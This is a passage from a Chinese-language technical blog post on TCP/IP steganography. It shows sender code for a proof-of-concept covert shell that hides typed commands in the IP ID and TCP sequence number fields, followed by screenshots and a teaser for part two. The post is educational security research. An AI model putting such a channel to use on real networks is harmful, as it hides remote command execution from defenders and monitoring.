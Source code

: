 ```
ip_id, tcp_isn = unpack("&lt;HI", 'xdd' + payload_chuncks[-1])
packet = IP( id = ip_id )/TCP( seq = tcp_isn )
packets.append( packet )
return packets
while True :
payload = raw_input("$&gt; ")
if not payload :
continue
packets = chunker(payload)
send(packets, inter = 0.05)
```

这是发送器。您可以看到代码仅适用于localhost，并且有很多限制。我现在只是编写一个隐蔽Shell的概念证明代码，完整的代码将在第二篇中提供… 

<br>

**动起来，动起来… **

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01c062ec38486ab386.png)

发送器（左图），接收器（右上图），证明命令已经执行（右下图）

<br>

**分析师看到的一幕**

[![](https://p3.ssl.qhimg.com/t0129f9f558a76e0da0.png)](https://p3.ssl.qhimg.com/t0129f9f558a76e0da0.png)

“嗯… 在这个主机上的所有数据包的ID和序列号显然不是随机的…我不知道这里发生了什么…”

未完待续… 

<br>



**传送门**

[**【技术分享】基于TCP/IP协议栈的隐写术和隐蔽通道（part 2）**](http://bobao.360.cn/learning/detail/3755.html)

<br>
